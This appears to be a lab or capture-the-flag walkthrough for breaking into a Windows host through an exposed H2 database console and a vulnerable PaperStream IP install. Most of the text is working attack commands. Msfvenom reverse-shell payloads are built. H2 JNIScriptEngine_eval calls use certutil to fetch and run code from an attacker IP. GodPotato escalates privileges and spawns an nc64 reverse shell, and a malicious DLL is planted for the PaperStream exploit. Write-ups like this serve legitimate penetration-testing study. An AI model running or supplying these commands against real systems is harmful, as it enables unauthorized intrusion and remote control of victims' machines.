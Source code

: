 We discover port 80
# 80
![](attachment/253012439e700bfa67b5d41985a9b496.png)
We can change password with the api on this JDBC

# 8082
We are presented with H2 console:
![](attachment/6c5598326aef3da42ed907846c3b9599.png)
We can change the database to something that doesn't exist and check:
![](attachment/b990faebb47776755420216ac4334f34.png)
User tony found

We can try an exploit:
https://www.exploit-db.com/exploits/49384
![](attachment/7cf88c92418a295f4405a5f7c32ce757.png)
We got working code execution.

Now we can create a shell:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.236 LPORT=1234 -f exe > reverse.exe
```
now we can transfer this with:
```
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -f http://192.168.45.236/reverse.exe C:/Users/Public/reverse.exe").getInputStream()).useDelimiter("\\Z").next()');
```

Now to get the reverse shell back:
```
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:/Users/Public/reverse.exe").getInputStream()).useDelimiter("\\Z").next()');
```
![](attachment/47434bdcc2be5e83dbc07a1c6d987558.png)![](attachment/4cc18d8f5ae10442782b5ab8dcf59a43.png)
Nothing works

Using full path:
```
C:\Windows\system32\whoami.exe /priv
```
![](attachment/44b696b1da475ca1c724d357b930af3b.png)
We can also set the path:
```
set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
```
We have SeImpersonatePrivilege so trying Godpotato:
```
.\GodPotato.exe -cmd "C:\Users\Public\nc64.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.236 9092"
```
![](attachment/6334a2fc86fe60242ddb752fecb10e65.png)
![](attachment/0a6f157d97bf42ceb9d07aaaacb2a39f.png)
We get a shell but it is a broken shell.

# Alternate Method

We find an unusual program:
![](attachment/36f48554f3640252ea10457a1f2010c1.png)
Using the exploit for PaperStream IP
https://www.exploit-db.com/exploits/49382
Now generate msfvenom payload:
```
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o shell.dll LHOST=192.168.45.236 LPORT=9092
```

Transfer it to the machine:
```
certutil -urlcache -f http://192.168.45.236/shell.dll C:\Windows\Temp\UninOldIS.dll
```
Now run exploit:
```
.\paper.ps1
```